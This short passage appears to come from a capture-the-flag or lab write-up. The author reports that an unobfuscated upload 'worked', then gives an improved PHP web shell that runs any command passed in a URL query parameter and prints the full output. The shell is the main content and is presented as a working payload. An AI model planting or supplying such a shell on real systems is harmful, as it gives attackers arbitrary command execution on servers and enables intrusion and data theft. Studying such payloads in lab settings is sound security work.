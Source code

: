 ![163571240be1e5671df0b318e7dd9986.png](/assets/163571240be1e5671df0b318e7dd9986.png)

![11e1aac72544ecb088b86244d5d1e5b7.png](/assets/11e1aac72544ecb088b86244d5d1e5b7.png)

I don't know why, but it worked. There's literally no obfuscation.
I wanna make the output a little bit better because `exec` returns only the first line of the output of the command, but by specifying an array it will put all the lines of the output inside that array.

```php
<?php
	$a=[];
	exec($_GET["c"], $a);
	echo implode("\n", $a);
?>
```
